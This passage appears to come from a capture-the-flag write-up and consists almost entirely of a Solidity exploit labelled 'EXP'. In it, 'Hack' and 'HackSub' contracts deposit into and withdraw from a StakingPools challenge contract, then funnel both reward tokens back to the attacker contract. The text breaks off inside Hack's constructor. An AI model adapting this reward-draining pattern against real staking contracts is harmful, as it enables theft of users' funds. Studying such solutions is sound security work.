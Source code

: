 ??? info "EXP"
    ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.0;

    import "./StakingPoolsDeployment.sol";
    import "./StakingPools_MT.sol";
    import "./ERC20.sol";
    import "./ERC20V2.sol";

    import "hardhat/console.sol";

    contract HackSub {

        ERC20 public rewardToken1;
        ERC20 public rewardToken2;
        ERC20 public stakedToken;

        StakingPools public stakingPools;
        Hack public hack;

        constructor(Hack _hack, StakingPools _stakingPools, ERC20 _rewardToken1, ERC20 _rewardToken2, ERC20 _stakedToken) {
            hack = _hack;
            rewardToken1 = _rewardToken1;
            rewardToken2 = _rewardToken2;
            stakedToken = _stakedToken;
            stakingPools = _stakingPools;
        }

        function deposit(uint256 amount) public {
            stakedToken.approve(address(stakingPools), amount);
            stakingPools.deposit(amount);
        }

        function withdraw(uint256 amount) public {
            stakingPools.withdraw(amount);
        }

        function collect() public {
            rewardToken1.transfer(address(hack), rewardToken1.balanceOf(address(this)));
            rewardToken2.transfer(address(hack), rewardToken2.balanceOf(address(this)));
        }

    }

    contract Hack {

        HackSub public hackSub;

        ERC20 public rewardToken1;
        ERC20 public rewardToken2;
        ERC20 public stakedToken;

        StakingPools public stakingPools;
        StakingPoolsDeployment public stakingPoolsDeployment;

        constructor() {
            stakingPoolsDeployment = new StakingPoolsDeployment();
